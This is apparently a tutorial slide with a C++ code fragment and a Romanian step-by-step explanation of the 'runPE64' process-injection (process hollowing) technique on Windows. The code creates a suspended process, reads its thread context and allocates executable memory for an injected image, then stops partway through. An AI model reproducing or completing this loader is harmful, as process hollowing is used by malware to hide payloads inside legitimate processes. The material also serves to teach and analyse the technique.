

#undef UNICODE
#define UNICODE
#include <Windows.h>

int runPE64(
    LPPROCESS_INFORMATION lpPI,
    LPSTARTUPINFO lpSI,
    LPVOID lpImage,
    LPWSTR wszArgs,
    SIZE_T szArgs
)
{
    WCHAR wszFilePath[MAX_PATH];
    if (!GetModuleFileName(
        NULL,
        wszFilePath,
        sizeof wszFilePath
    ))
    {
        return -1;
    }
    WCHAR wszArgsBuffer[MAX_PATH + 2048];
    ZeroMemory(wszArgsBuffer, sizeof wszArgsBuffer);
    SIZE_T length = wcslen(wszFilePath);
    memcpy(
        wszArgsBuffer,
        wszFilePath,
        length * sizeof(WCHAR)
    );
    wszArgsBuffer[length] = ' ';
    memcpy(
        wszArgsBuffer + length + 1,
        wszArgs,
        szArgs
    );

    PIMAGE_DOS_HEADER lpDOSHeader =
        reinterpret_cast<PIMAGE_DOS_HEADER>(lpImage);
    PIMAGE_NT_HEADERS lpNTHeader =
        reinterpret_cast<PIMAGE_NT_HEADERS>(
            reinterpret_cast<DWORD64>(lpImage) + lpDOSHeader->e_lfanew
        );
    if (lpNTHeader->Signature != IMAGE_NT_SIGNATURE)
    {
        return -2;
    }

    if (!CreateProcess(
        NULL,
        wszArgsBuffer,
        NULL,
        NULL,
        TRUE,
        CREATE_SUSPENDED,
        NULL,
        NULL,
        lpSI,
        lpPI
    ))
    {
        return -3;
    }

    CONTEXT stCtx;
    ZeroMemory(&stCtx, sizeof stCtx);
    stCtx.ContextFlags = CONTEXT_FULL;
    if (!GetThreadContext(lpPI->hThread, &stCtx))
    {
        TerminateProcess(
            lpPI->hProcess,
            -4
        );
        return -4;
    }

    LPVOID lpImageBase = VirtualAllocEx(
        lpPI->hProcess,
        reinterpret_cast<LPVOID>(lpNTHeader->OptionalHeader.ImageBase),
        lpNTHeader->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (lpImageBase == NULL)
    {
        TerminateProcess(
            lpPI->hProcess,
            -5
        );
        return -5;
    }

# Injectare procese (I)

Codul prezentat este un exemplu de tehnică de injectare a unui proces în Windows, utilizând API-ul Windows pentru a crea și manipula procese. Aici este o descriere pas cu pas a principalelor componente și acțiuni ale codului:

Preprocesorul Directive - #undef UNICODE și #define UNICODE asigură că toate apelurile de funcții care pot fi definite atât în versiunea ANSI cât și în UNICODE vor folosi versiunea UNICODE.

Includerea Antetului Windows - #include <Windows.h> este necesar pentru a utiliza funcționalitățile API-ului Windows.

Funcția runPE64
Parametrii funcției includ informații despre proces (PROCESS_INFORMATION), informații pentru inițializarea procesului (STARTUPINFO), imaginea procesului în memorie, argumentele și dimensiunea acestora.

Obținerea căii executabilului - Prin GetModuleFileName, funcția extrage calea fișierului executabil al procesului curent.

Pregătirea argumentelor: Concatenează calea executabilului cu argumentele primite pentru a fi folosite în crearea noului proces.

Verificarea headerului PE - Verifică dacă imaginea în memorie este un executabil valid folosind semnătura IMAGE_NT_SIGNATURE.

Crearea procesului - Folosind CreateProcess cu starea CREATE_SUSPENDED pentru a opri execuția imediată a noului proces.